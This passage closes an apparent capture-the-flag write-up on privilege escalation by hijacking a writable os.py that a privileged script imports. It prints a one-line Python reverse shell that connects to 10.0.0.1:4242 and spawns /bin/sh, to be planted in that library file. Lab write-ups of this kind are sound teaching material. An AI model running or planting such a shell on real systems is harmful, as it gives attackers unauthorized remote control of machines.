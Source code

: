 We are right, but how to exploit that? We can't edit the file and only have read permission over the directory.

One thing the script is doing is importing the `os` library so let's check that.

![](16.png)

The `os.py` file is writeable, so we can add a script to it to get a shell.

One problem we have is that most reverse shells uses the `os` library to get a shell, i searched for one that doesn't and found it:

```python
import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```

Let's add the code above to os.py and setup a listener to receive the reverse shell.

![](17.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).